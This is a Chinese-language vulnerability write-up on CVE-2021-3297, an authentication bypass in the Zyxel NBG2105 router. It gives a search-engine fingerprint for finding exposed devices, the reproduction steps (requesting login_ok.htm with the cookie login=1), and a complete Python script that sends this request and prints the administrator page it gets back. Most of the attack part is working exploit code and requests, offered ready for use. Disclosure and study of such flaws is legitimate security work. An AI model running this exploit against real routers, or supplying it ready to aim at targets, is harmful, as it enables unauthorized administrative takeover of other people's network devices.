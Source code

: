 # 

# Zyxel NBG2105 身份验证绕过 CVE-2021-3297

## 漏洞描述

Zyxel NBG2105 存在身份验证绕过，攻击者通过更改 login参数可用实现后台登陆

## 漏洞影响

```
Zyxel NBG2105
```

## 网络测绘

```
app="ZyXEL-NBG2105"
```

## 漏洞复现

登录页面如下

![](./images/202202140930455.png)

其中前端文件 **/js/util_gw.js** 存在前端对 Cookie login参数的校验

![](./images/202202140930281.png)

可以看到检测到 Cookie中的 **login=1** 则跳转 home.html

```plain
function setCookie() //login_ok.htm use
{
	document.cookie="login=1";
	MM_goToURL('parent', 'home.htm');
}
```

请求如下则会以管理员身份跳转到 **home.htm页面**

```plain
http://xxx.xxx.xxx.xxx/login_ok.htm

Cookie: login=1;
```

![](./images/202202140931038.png)

## 漏洞POC

```
# python3
import requests
import sys
from requests.packages.urllib3.exceptions import InsecureRequestWarning


def poc(url):
    exp = url + "/login_ok.htm"

    header = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "cookie":"login=1",
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=exp, headers=header, verify=False,timeout=10)
        #print(response.text)
        if response.status_code == 200 and "GMT" in response.text:
            print(exp + " 存在Zyxel NBG2105 身份验证绕过 CVE-2021-3297漏洞！！！")
            print("数据信息如下：")
            print(response.text)
        else:
            print(exp + " 不存在Zyxel NBG2105 身份验证绕过 CVE-2021-3297漏洞！！！")
    except Exception as e:
        print(exp + "请求失败！！")


def main():
    url = str(input("请输入目标url："))
    poc(url)


if __name__ == "__main__":
    main()
```

## 参考文章

https://github.com/nieldk/vulnerabilities/blob/main/zyxel%20nbg2105/Admin%20bypass


